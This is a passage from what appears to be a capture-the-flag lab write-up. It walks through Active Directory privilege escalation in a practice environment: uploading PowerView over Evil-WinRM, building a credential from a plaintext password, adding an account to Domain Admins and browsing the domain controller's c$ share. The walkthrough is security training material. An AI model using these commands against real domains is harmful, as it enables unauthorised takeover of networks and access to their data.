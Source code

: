     Info: Upload successful!
    

### Add to Domain Admins

If I didn’t know how to exploit this privilege, the help in Bloodhound on the
link will tell me:

![image-20200606145743610](https://0xdfimages.gitlab.io/img/image-20200606145743610.png)

So now I can use p00_adm’s account and add it to the Domain Admins group. I’ll
upload `PowerView.ps1` and import it:

    
    
    *Evil-WinRM* PS C:\programdata> upload PowerView.ps1
    Info: Uploading PowerView.ps1 to C:\programdata\PowerView.ps1
    
                                                                 
    Data: 1027244 bytes of 1027244 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\programdata> Import-Module .\PowerView.ps1
    

Now I’ll create a `PSCredential` object, and then add p00_adm to Domain
Admins:

    
    
    *Evil-WinRM* PS C:\programdata> $pass = ConvertTo-SecureString 'ZQ!5t4r' -AsPlainText -Force
    *Evil-WinRM* PS C:\programdata> $cred = New-Object System.Management.Automation.PSCredential('intranet.poo\p00_adm', $pass)
    *Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'p00_adm' -Credential $cred
    

### Grab Flag

As p00_adm is now a domain admin, it to access the `c$` share on the DC:

    
    
    *Evil-WinRM* PS C:\programdata> net use \\DC.intranet.poo\c$ /u:intranet.poo\p00_adm 'ZQ!5t4r'
    The command completed successfully.
    
    *Evil-WinRM* PS C:\programdata> dir \\DC.intranet.poo\c$\users\
    
    
        Directory: \\DC.intranet.poo\c$\users
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        3/15/2018   1:20 AM                Administrator
    d-----        3/15/2018  12:38 AM                mr3ks
    d-r---       11/21/2016   3:24 AM                Public
    

Now I can grab the flag, which I find on mr3ks’ desktop:

    